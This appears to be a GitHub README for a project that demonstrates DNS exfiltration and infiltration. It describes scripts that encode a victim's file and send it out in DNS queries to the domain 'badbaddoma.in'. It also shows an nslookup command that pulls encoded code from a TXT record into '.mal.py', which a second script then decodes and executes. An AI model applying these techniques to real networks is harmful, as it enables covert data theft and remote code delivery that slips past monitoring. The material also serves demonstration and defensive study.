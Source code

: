 # Showcase of DNS Exfiltration and Infiltration  
Simple showcase of how to transfer data in and out of a network through the use of DNS queries and TXT records  

# Items used  
* tshark (to capture traffic on a linux box)
* python scripts (to either send dns queries or decode queries from .pcap file)

# Transfer with DNS Queries
Have your remote DNS Server capture incoming DNS queries through the use of _tshark_.  
On the 'Victim's PC' have a .txt file ready. The text file can contains any information, but keep  
in mind that the longer the text file the longer you will have to wait for all the queries to transfer.  
When you are ready run:  
```python
python3 packety.py
```
It will prompt you for a filename, once entered it will proceed to encode the data from the file.  
Once everything is encoded it will wait for user input to start transferring the data over DNS queries.  
  
Here is the process:  
1. Asks for filename.  
2. Encodes the data from file to Base64 then Base58.  
3. Encoded data is split into sections of 9. ['5eaw531rt', '25tyhj5hj']  
4. Function Encryptor is executed. For each 'list element' it append a random letter at the front, and two random letters at the back.  
['x5eaw531rtzh', 'a25tyhj5hjui']
5. Waits for user input.  
6. Begins transmitting data through DNS queries.  
x5eaw531rtzh.badbaddoma.in  
a25tyhj5hjui.badbaddoma.in  
  
To Decode your data run -> (On DNS Server where you captured the traffic through _tshark_):
```python
python3 packetyGrabber.py
```
Asks the user for the filename of the .pcap file.  
It then proceeds to decode the data. Once finished it will display the data in the terminal.  
  
Here is the process:  
1. Asks for PCAP filename.  
2. Filters through PCAP for 'dns.qry_name' == 'badbaddoma'.  
3. Strips away the first character and the last two characters. (Because we added 'extra' encryption in previous Step.4^)
4. Decodes data from Base58 then Base64.
5. Prints decoded data in the terminal.

# Infiltrate data into a network through DNS TXT records  
On your DNS Server have a TXT record, for example  
```python
text                IN      TXT     "Test TXT record"  
```
When you do: 
```python
nslookup -type=txt text.badbaddoma.in
```
you will get "Test TXT record", keep in mind TXT record is limited to 255 characters.  
  
For this Demo I will be Infiltration the following python code:
```python
import os
with open('.mal.py', 'w') as wr:
        wr.write('while True: print("maLwAre CoDe")')
os.system(f'python3 .mal.py')
```
The code above needs to be encoded to Base64 then Base58. And then from the encoded data we will make a TXT record containing  
that encoded data.  
To get the encoded code ^ you will need to make a TXT record query to your DNS Server, it will look something like this:
# Linux  
```python
nslookup -type=txt rt1.badbaddoma.in | grep 3x | cut -d \" -f2 > .mal.py
```
It's a simple python code that when ran it will create a new file(if non-existing) and write simple code into the file.  
It then will run the file that we created.  
Here is where my last python script comes in the play.  
It's a recycled code from previous scripts that upon execution it will again asks for a filename, the filename being the file  
where we stored our encoded data from the TXT record.  
It will then decode the data(overwrites the file that has the encoded data with the python code), put itself to sleep for 3 seconds and then execute the code.
